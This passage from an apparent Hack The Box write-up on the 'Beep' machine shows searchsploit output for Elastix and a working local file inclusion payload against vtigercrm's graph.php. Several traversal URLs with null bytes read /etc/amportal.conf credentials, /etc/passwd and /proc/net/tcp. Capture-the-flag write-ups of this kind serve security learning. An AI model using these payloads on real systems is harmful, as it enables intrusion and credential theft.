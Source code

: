 <br/>
<img src="{{ site.img_path }}/beep_writeup/Beep_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now if I search with `searchsploit` for vulnerabilities for **Elastix**, I find some very interesting ones, but I don't have the version of the service installed on the target machine. In the **ExploitDB** database there are not many exploits so I can analyze the scripts, since I can't find any information on the Web or in the source code. There is one that exploits an **LFI** and if I use the **URL** that allows to leak sensitive system information, I succeed in getting the credentials to access an administration panel.

```bash
searchsploit elastix

searchsploit -x php/webapps/37637.pl
# LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
# Password :)
```

<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Thanks to the exploitation of the **LFI** I can leak a lot of information from the system, including the first flag to validate before **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** the engagement of the system. From one of the system files, which after performing a format transformation allows me to obtain the list of all open ports, but I still can't find any path that allows me to access the machine.

```bash
# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
# :)
# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action
# :)
# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/fib_trie%00&module=Accounts&action
# :(
# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00&module=Accounts&action
# :)

```
